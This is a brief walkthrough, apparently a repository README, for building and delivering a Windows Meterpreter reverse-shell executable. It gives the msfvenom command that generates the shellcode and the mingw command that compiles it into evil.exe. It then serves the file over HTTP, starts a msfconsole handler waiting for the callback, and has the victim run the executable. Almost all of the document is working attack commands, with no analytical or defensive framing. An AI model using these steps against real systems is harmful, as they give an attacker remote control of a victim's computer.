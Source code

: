 # Attacker server
- Create malicious shellcode by msfvenom
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.138 LPORT=4444 -f c > shellcode.txt
```
- Create a malicious C++ file
- Compile exe file from C++ file:
```bash
x86_64-w64-mingw32-g++ -o evil.exe evil.cpp -static-libgcc -static-libstdc++
```
- Run listening server
```bash
python -m http.server 80
msfconsole -x "use exploits/multi/handler; set lhost 192.168.119.138; set lport 4444; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```

# Victime machine
```bash
.\evil.exe
```